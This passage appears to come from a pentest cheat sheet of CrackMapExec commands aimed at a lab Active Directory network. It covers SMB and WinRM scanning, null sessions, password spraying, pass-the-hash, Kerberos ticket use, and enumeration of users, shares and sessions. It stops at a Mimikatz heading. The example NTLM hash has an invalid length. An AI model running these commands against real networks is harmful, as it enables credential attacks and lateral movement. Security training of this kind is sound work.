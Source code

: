 ### CrackMapExec

**Target Discovery**
```bash
# Network scan
crackmapexec smb 192.168.56.0/24
crackmapexec winrm 192.168.56.0/24

# Null sessions
crackmapexec smb 192.168.56.0/24 -u '' -p ''
```

**Authentication**
```bash
# Password auth
crackmapexec smb winterfell -u jon.snow -p password
crackmapexec smb 192.168.56.0/24 -u users.txt -p passwords.txt --continue-on-success

# Hash auth (Pass-the-Hash)
crackmapexec smb winterfell -u jon.snow -H aad3b435b51404eeaad3b435b51404ee:8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918

# Kerberos auth
export KRB5CCNAME=ticket.ccache
crackmapexec smb winterfell -k --no-pass
```

**Enumeration**
```bash
# Enumerate users & groups
crackmapexec smb winterfell -u jon.snow -p password --users
crackmapexec smb winterfell -u jon.snow -p password --groups
crackmapexec smb winterfell -u jon.snow -p password --local-users

# Enumerate shares
crackmapexec smb winterfell -u jon.snow -p password --shares

# Enumerate sessions
crackmapexec smb winterfell -u jon.snow -p password --sessions

# Check admin access
crackmapexec smb 192.168.56.0/24 -u jon.snow -p password --local-auth

# RID Bruteforce
crackmapexec smb winterfell -u jon.snow -p password --rid-brute
```

---

## Exploitation Tools

### Mimikatz
